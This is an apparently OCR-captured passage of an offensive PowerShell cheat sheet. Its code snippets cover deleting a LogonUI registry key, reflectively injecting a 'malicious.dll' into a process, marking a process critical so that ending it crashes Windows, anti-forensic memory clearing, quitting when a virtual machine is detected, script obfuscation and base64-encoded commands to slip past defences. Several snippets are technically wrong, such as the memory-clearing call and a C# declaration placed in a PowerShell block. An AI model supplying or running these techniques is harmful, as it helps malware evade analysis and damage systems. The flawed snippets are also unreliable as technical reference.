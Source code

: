 ```powershell
Remove-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Authentication\LogonUI" -Recurse
```

## Memory Manipulation&#x20;

**Memory Injection**&#x20;

* Inject a DLL into a running process using `Invoke-ReflectivePEInjection`:

```powershell
Invoke-ReflectivePEInjection -PEPath "C:\Path\to\malicious.dll" -ProcessID <pid>
```

**Manipulating Memory for Anti-Debugging**&#x20;

* Use `RtlSetProcessIsCritical` to make the process critical (causes BSOD if terminated):

```powershell
[DllImport("ntdll.dll")]
public static extern int RtlSetProcessIsCritical(bool bNewValue, bool bOldValue, bool bNeedScb);
```

**Clearing Memory to Avoid Forensics**&#x20;

* Zero out memory of a specific process:

```powershell
[System.Runtime.InteropServices.Marshal]::ZeroFreeGlobalAllocAnsi([IntPtr]::Zero)
```

## Anti-Analysis Techniques&#x20;

**Detecting Virtual Machines**&#x20;

* Check for common VM artifacts:

```powershell
if (Get-WmiObject -Class Win32_BIOS | Select-String -Pattern "VirtualBox|VMware") { Exit }
```

* Exit if running in a virtualized environment:

```powershell
$bios = Get-WmiObject Win32_BIOS
if ($bios.SerialNumber -match "VMware|VBOX") { Exit }
```

**Obfuscating Powershell Scripts**&#x20;

* Obfuscate script using `Invoke-Obfuscation` (requires Invoke-Obfuscation module):

```powershell
Invoke-Obfuscation
```

* Encode a Powershell command to bypass basic defenses:

```powershell
$command = 'Get-Process'
$encodedCommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($command))
powershell.exe -EncodedCommand $encodedCommand
```
